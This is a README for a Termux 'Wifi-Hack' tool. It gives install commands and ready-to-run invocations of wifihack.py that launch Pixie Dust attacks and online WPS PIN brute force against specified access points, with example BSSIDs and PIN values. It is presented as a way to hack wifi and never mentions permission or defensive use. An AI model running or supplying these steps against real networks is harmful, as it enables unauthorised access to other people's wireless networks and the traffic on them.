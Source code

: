 ## Wifi-Hack
### Hack Wifi Using Termux! (Requires Root)

<p align="center"><img src="https://i.ibb.co/K74g0SC/hulu.jpg"></p>

### Installation :

```bash
apt update && apt upgrade
pkg install -y root-repo
pkg install -y git tsu python wpa-supplicant pixiewps iw
git clone https://github.com/rakibroni2468/Wifite_RakibRoni
cd Wifite_RakibRoni
chmod +x wifihack.py
sudo python wifihack.py --help
```

#### Example : `sudo python wifihack.py -i wlan0 -K`

#### Note: 
**First turn off your Wifi.**
- Show avaliable networks and start Pixie Dust attack on a specified network.
- `sudo python wifihack.py -i wlan0 -K`
- - Start Pixie Dust attack on a specified BSSID:
`sudo python wifihack.py -i wlan0 -b 00:91:4C:C3:AC:28 -K`
- Launch online WPS bruteforce with the specified first half of the PIN:
- `sudo python wifihack.py -i wlan0 -b 00:90:4C:C1:AC:21 -B -p 1234`
### Troubleshooting
**"Device or resource busy (-16)" - Turn on Wifi and Then Turn off Wifi.**
